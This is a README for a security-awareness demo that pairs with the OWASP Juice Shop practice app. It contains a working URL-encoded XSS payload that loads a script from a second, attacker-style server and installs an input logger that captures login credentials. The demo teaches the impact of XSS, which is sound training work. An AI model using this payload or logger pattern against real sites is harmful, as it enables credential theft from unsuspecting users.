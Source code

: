 # shake-logger
This projects provides a logger and a connected harlem shake js.

# Juice Shop
This projects helps in awareness trainings, specally with the [juice shop](https://github.com/bkimminich/juice-shop).
You can use it via docker and docker-compose running:
´docker-compose up´

To show the possible impact of [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)), assume you received and (of course) clicked
[this inconspicuous phishing link](http://localhost:3000/#/search?q=%3Cscript%3Evar%20js%20%3Ddocument.createElement%28%22script%22%29;js.type%20%3D%20%22text%2Fjavascript%22;js.src%3D%22http:%2F%2Flocalhost:8080%2Fshake.js%22;document.body.appendChild%28js%29;varhash%3Dwindow.location.hash;window.location.hash%3Dhash.substr%280,8%29;%3C%2Fscript%3Eapple)
and login. Apart from the visual/audible effect, the attacker also
installed [an input logger](http://localhost:8080/logger.php) to grab credentials! This could easily run on a 3rd party server in real life!
